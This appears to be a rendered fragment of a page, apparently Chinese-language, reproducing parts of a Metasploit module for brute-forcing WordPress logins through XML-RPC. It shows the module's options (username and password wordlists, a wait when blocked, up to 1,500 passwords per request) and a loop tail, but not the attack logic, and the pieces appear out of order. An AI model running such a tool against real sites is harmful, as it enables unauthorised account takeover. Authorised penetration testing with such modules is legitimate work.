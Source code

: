 ```
          end

        end

        unless user == usernames.last
          vprint_status('Sleeping for 2 seconds..')
          sleep 2
        end

      end 
    end 
  end 
```

#### 总结

```
##
# This module requires Metasploit: http://www.metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HTTP::Wordpress

  def initialize(info = {})
    super(update_info(
            info,
            'Name'         => 'WordPress XML-RPC Massive Brute Force',
            'Description'  => %q{WordPress massive brute force attacks via WordPress XML-RPC service.},
            'License'      => MSF_LICENSE,
            'Author'       =>
                [
                  'Sabri (@KINGSABRI)',           # Module Writer
                  'William (WCoppola@Lares.com)'  # Module Requester
                ],
            'References'   =>
                [
                  ['URL', 'https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/'],
                  ['URL', 'https://blog.sucuri.net/2014/07/new-brute-force-attacks-exploiting-xmlrpc-in-wordpress.html']
                ]
          ))

    register_options(
        [
          OptString.new('TARGETURI', [true, 'The base path', '/']),
          OptPath.new('WPUSER_FILE', [true, 'File containing usernames, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_users.txt") ]),
          OptPath.new('WPPASS_FILE', [true, 'File containing passwords, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_pass.txt")]),
          OptInt.new('BLOCKEDWAIT', [true, 'Time(minutes) to wait if got blocked', 6]),
          OptInt.new('CHUNKSIZE', [true, 'Number of passwords need to be sent per request. (1700 is the max)', 1500])
        ], self.class)
  end

```